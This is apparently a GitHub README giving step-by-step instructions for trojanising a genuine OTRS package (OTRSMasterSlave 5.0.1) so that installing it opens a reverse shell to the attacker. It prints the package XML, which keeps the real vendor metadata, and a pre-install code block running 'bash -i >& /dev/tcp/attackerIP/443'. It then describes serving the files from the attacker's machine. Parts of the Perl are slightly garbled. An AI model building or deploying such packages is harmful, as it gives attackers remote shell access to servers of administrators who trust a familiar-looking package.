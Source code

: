 # OTRS-OPM-Reverse-Shell-Package-5.0.X
OTRS OPM Reverse Shell opm Package 5.0.X - installation steps explanation



# OTRS OPM Reverse Shell steps
#Should work with OTRS 5.0.2 software
#Follow the below steps to take a reverse shell on the victim when opm package needs to be installed using otrs.xml file.
Include otrs.xml and .opm files in the same folder.

*****************************************************************************************************************************
 <Package>
        <Name>OTRSMasterSlave</Name>
        <Version>5.0.1</Version>
        <Vendor>OTRS AG</Vendor>
        <URL>http://otrs.org/</URL>
        <License>GNU AFFERO GENERAL PUBLIC LICENSE Version 3, November 2007</License>
        <ChangeLog Date="2015-10-15 05:51:53" Version="5.0.1">Build for OTRSMasterSlave 5.</ChangeLog>
        <ChangeLog Date="2015-08-27 05:58:03" Version="4.0.91">Build for OTRSMasterSlave 5 beta1.</ChangeLog>
        <Description Lang="en">Includes "Ticket Master/Slave" feature.</Description>
        <Description Lang="de">Enthält "Ticket Master/Slave" Funktionalität.</Description>
        <Framework>5.0.x</Framework>
        <Filelist><FileDoc Location="doc/en/OTRSMasterSlave.pdf" Permission="644"/></Filelist>
        <File>OTRSMasterSlave-5.0.1.opm</File>
 </Package>
*****************************************************************************************************************************

1. The above lines of code must be included in the otrs.xml file. These indicate the presence of the OTRSMasterSlave-5.0.1.opm package in the same directory where the otrs.xml is located.

2. OTRSMasterSlave-5.0.1.opm is edited and a reverse shell code is included. The below code is added after the 
	<Framework>5.0.x</Framework>  header.

******************************************************************************************************************************
    <IntroInstall Lang="en" Title="My Module" type="pre">
                &lt;br&gt;
                Hello wolrd
                &lt;br&gt;
                ((Hello!))
                &lt;br&gt
        </IntroInstall>
        <CodeInstall type="pre">
                print qx(bash -i >& /dev/tcp/attackerIP/443 0>&1 &);
        </CodeInstall>
        <CodeInstall Type="post">
                # create the package name
                my $CodeModule = 'var::packagesetup::' . $Param{Structure}-&gt;{Name}-&gt;{Content};
                $Kernel::OM-&gt;Get($ModeModule)-%gt;CodeInstall();
        </CodeInstall>
        <CodeUninstall type="pre">
                my $CodeModule = 'var::packagesetup::' . $Param{Structure}-%gt;{Name}-%gt;{Content};
                $Kernel::OM-&gt;Get($CodeModule)-&gt;CodeUninstall();
        </CodeUninstall>
*******************************************************************************************************************************

3. Give 777 permission to both opm and xml file and run a python server on port 80(on attacker's box).

4. The original opm file was downloaded from https://ftp.otrs.org/pub/otrs/packages/OTRSMasterSlave-5.0.1.opm


